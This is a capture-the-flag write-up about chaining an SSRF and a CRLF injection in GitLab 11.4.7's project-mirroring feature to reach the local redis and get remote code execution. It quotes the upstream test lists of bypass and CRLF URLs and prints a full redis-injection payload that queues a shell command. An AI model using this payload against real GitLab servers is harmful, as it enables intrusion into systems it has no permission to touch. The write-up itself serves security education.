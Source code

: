 ﻿## Task

Task consisted of only two files:  

#### docker-compose.yml
	web:
      image: 'gitlab/gitlab-ce:11.4.7-ce.0'
      restart: always
      hostname: 'gitlab.example.com'
      environment:
        GITLAB_OMNIBUS_CONFIG: |
          external_url 'http://gitlab.example.com'
          redis['bind']='127.0.0.1'
          redis['port']=6379
          gitlab_rails['initial_root_password']=File.read('/steg0_initial_root_password')
      ports:
        - '5080:80'
        - '50443:443'
        - '5022:22'
      volumes:
        - '/srv/gitlab/config:/etc/gitlab'
        - '/srv/gitlab/logs:/var/log/gitlab'
        - '/srv/gitlab/data:/var/opt/gitlab'
        - './steg0_initial_root_password:/steg0_initial_root_password'
        - './flag:/flag:ro'

#### reset.sh

    #!/bin/sh
    echo -n \`head -n1337 /dev/urandom | sha512sum | cut -d' ' -f1\` > steg0\_initial\_root_password

Description went something along the lines of: "You may need an 0day".  
  
So... we had docker-compose that builds gitlab version 11.4.7-ce.0, which at the time of the event was actually second latest, there was some release 5 days before the competition. From docker-compose we can also see that the flag is in filesystem under _/flag_.  
  
At first we thought the description was just a standard teaser, but after briefly looking at the challenge we knew it may actually be the case.  
The only other thing that could be flawed other than gitlab itself is the way of generating _initial\_root\_password._ Which unfortunately I don't believe is the case (at least to my knowledge).  
  

## Clues

Some time later we stumbled upon gitlab blog post describing security issues fixed in the latest release [https://about.gitlab.com/2018/11/28/security-release-gitlab-11-dot-5-dot-1-released/](https://about.gitlab.com/2018/11/28/security-release-gitlab-11-dot-5-dot-1-released/).  
There was plenty to choose from, our attention was grabbed by one of them which was reported by employee of Chaitin Tech, organizers of the CTF.  
  

[![](https://2.bp.blogspot.com/-xXeW_DWc21Y/XCqZtcbO7oI/AAAAAAAAAPI/o7o4w64xVB0U2nQK8NAo0ialkr-o_ZT4wCLcBGAs/s640/Screenshot%2Bfrom%2B2018-12-31%2B23-35-20.png)](https://2.bp.blogspot.com/-xXeW_DWc21Y/XCqZtcbO7oI/AAAAAAAAAPI/o7o4w64xVB0U2nQK8NAo0ialkr-o_ZT4wCLcBGAs/s1600/Screenshot%2Bfrom%2B2018-12-31%2B23-35-20.png)

  
  
We started to look for any service that is accessible from localhost only and could lead to Arbitrary File Read or RCE.  
Such service happens to be [redis](https://www.google.com/search?q=redis+ssrf). This vector was already used in the past, you can read up on it in [this gitlab issue](https://gitlab.com/gitlab-org/gitlab-ce/issues/41293).  
  
Redis accepts commands in a line based format. There was only one problem - we couldn't break lines in Webhooks URLs.  
We looked at the blogpost once again.  
  

[![](https://4.bp.blogspot.com/-MrAw6YwYoGU/XCtzmugBYeI/AAAAAAAAAPU/zk6nHfI6RrgyL2jFXooDh2ryJ9VCNG5IwCLcBGAs/s640/Screenshot%2Bfrom%2B2019-01-01%2B15-04-53.png)](https://4.bp.blogspot.com/-MrAw6YwYoGU/XCtzmugBYeI/AAAAAAAAAPU/zk6nHfI6RrgyL2jFXooDh2ryJ9VCNG5IwCLcBGAs/s1600/Screenshot%2Bfrom%2B2019-01-01%2B15-04-53.png)

  
  
This looks promising, but it affects different part of code, project mirroring is not Webhooks functionality, or is it?  
Thanks to Gitlab being open source software, and the fact that the new version was already released, we knew somewhere in the [github repository](https://github.com/gitlabhq/gitlabhq) we would find a patch.  
Indeed, we can find both of the bugs fixes.  
  
SSRF: [https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974](https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974)  
CRLF: [https://github.com/gitlabhq/gitlabhq/commit/c0e5d9afee57745a79c072b0f57fdcbe164312da](https://github.com/gitlabhq/gitlabhq/commit/c0e5d9afee57745a79c072b0f57fdcbe164312da)  
  
Looking at the SSRF fix, we realized that the code which checks for loopback/local URLs is actually code placed in shared utils, which Project Mirroring uses as well.  
  
At this point, there were about 15 minutes left of the CTF, we had all the parts needed to create exploit, but just not enough time to implement it.  
  

## Exploiting

Knowing all of the above, we can put all the pieces together to create an exploit:  
  

- Use SSRF to access redis in Project Mirroring functionality(_/\<namespace>/\<projectname>/settings/repository#js-push-remote-settings_)**  
Finding out what works is as simple as looking at the [tests](https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974#diff-e2ebce1cc421d7f032b0067afc51177eR91) written to check for the bug after the fix was deployed.  

	    it 'returns true for loopback IPs' do
	        expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git')).to be true
	        expect(described_class.blocked_url?('https://[::ffff:127.0.0.1]/foo/foo.git')).to be true
	        expect(described_class.blocked_url?('https://[::ffff:7f00:1]/foo/foo.git')).to be true
	        expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.2]/foo/foo.git')).to be true
	        expect(described_class.blocked_url?('https://[::ffff:127.0.0.2]/foo/foo.git')).to be true
	        expect(described_class.blocked_url?('https://[::ffff:7f00:2]/foo/foo.git')).to be true
	    end

- Use CRLFs to inject redis commands.**  
Which is as simple as adding _\\n_ to our URL.  

	    shared_context 'invalid urls' do
		      let(:urls_with_CRLF) do
		        ["http://127.0.0.1:333/pa\rth",
		         "http://127.0.0.1:333/pa\nth",
		         "http://127.0a.0.1:333/pa\r\nth",
		         "http://127.0.0.1:333/path?param=foo\r\nbar",
		         "http://127.0.0.1:333/path?param=foo\rbar",
		         "http://127.0.0.1:333/path?param=foo\nbar",
		         "http://127.0.0.1:333/pa%0dth",
		         "http://127.0.0.1:333/pa%0ath",
		         "http://127.0a.0.1:333/pa%0d%0th",
		         "http://127.0.0.1:333/pa%0D%0Ath",
		         "http://127.0.0.1:333/path?param=foo%0Abar",
		         "http://127.0.0.1:333/path?param=foo%0Dbar",
		         "http://127.0.0.1:333/path?param=foo%0D%0Abar"]
		      end
		    end

Looking at the issue I mentioned earlier we arrive at payload that looks like this:  
  

	git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
	
	multi

	sadd resque:gitlab:queues system_hook_push

	lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami > /tmp/a \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"4552c3b1225428b18682c901\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

	exec

	exec


Putting that in mirror functionality results in a 500 returned from gitlab. This happens due to gitlab trying to render our URL and in failing to do so, refusing to respond with anything meaningful.  
That's not helpful given that we still need to trigger the mirror by clicking the little refresh button (or just sending POST to _update\_now?sync\_remote=true_)  
  

[![](https://3.bp.blogspot.com/-yArZaTpzzQE/XCupVBrtCMI/AAAAAAAAAPg/1AsdV2vqnDIxeRd35DQW2sd8iBtZ8rFzACLcBGAs/s640/Screenshot%2Bfrom%2B2019-01-01%2B18-54-12.png)](https://3.bp.blogspot.com/-yArZaTpzzQE/XCupVBrtCMI/AAAAAAAAAPg/1AsdV2vqnDIxeRd35DQW2sd8iBtZ8rFzACLcBGAs/s1600/Screenshot%2Bfrom%2B2019-01-01%2B18-54-12.png)


Doing the latter gives us full RCE.
Exploit can be found over here: [exploit.py](exploit.py)

Real World CTF network infrastructure routing didn't allow any connections initiated by gitlab host to LAN or Internet.

To extract the flag, you could use some part of the gitlab interface (icons,popups) to inject flag into it and then read it.
